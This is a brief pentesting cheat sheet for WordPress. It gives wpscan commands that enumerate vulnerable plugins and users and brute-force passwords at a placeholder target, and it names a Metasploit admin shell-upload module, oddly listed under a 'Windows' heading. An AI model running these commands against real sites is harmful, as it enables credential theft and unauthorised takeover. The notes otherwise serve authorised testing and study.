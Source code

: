 # Wordpress

## Links

- [wpscan](https://github.com/wpscanteam/wpscan)

## Wordpress scan

```sh
wpscan --url https://$IP -e vp,u
```

## Wordpress bruteforcing

```sh
wpscan --url http://$IP/ --usernames $USER --passwords $WORDLIST --max-threads 300
```

## Windows Wordpress exploit

```sh
exploit/unix/webapp/wp_admin_shell_upload
```
